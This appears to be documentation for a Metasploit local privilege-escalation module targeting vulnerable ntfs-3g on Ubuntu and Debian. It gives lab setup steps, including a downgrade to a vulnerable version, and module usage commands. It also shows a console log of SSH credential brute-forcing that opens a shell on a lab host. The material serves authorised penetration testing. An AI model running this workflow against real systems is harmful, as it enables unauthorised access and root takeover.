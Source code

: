## Creating A Testing Environment

  We have to live compile on the host, so `make` and `gcc` are required.  Easiest thing to do is: `apt-get install build-essential`.
  
  As per notes from the original EDB module, if you're in a VM, you should use **at least two CPU cores**.  This was confirmed during testing of this module as well.

This module has been tested against:

  1. Ubuntu 16.04 with ntfs-3g 1:2015.3.14AR.1-1build1
  2. Ubuntu 16.10 with ntfs-3g 1:2016.2.22AR.1-3
  3. Debian Jessie 8 (8.7.1, had to downgrade ntfs-3g to vuln version, and install kernel headers): `apt-get install ntfs-3g=1:2014.2.15AR.2-1+deb8u2 linux-headers-$(uname -r)`

This module was not tested against, but may work against:

  1. Debian 7
  2. Debian 9
  3. Other Debian based systems

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  4. Do: `use exploit/linux/local/ntfs3_priv_esc`
  5. Do: `set session #`
  6. Do: `set verbose true`
  7. Do: `exploit`

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

## Scenarios

### Ubuntu 16.04 (ntfs-3g 1:2015.3.14AR.1-1build1)

#### Initial Access

    resource (ntfs3g.rc)> use auxiliary/scanner/ssh/ssh_login
    resource (ntfs3g.rc)> set rhosts 192.168.2.137
    rhosts => 192.168.2.137
    resource (ntfs3g.rc)> set username ubuntu
    username => ubuntu
    resource (ntfs3g.rc)> set password ubuntu
    password => ubuntu
    resource (ntfs3g.rc)> exploit
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.117:40371 -> 192.168.2.137:22) at 2017-02-24 21:33:59 -0500
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
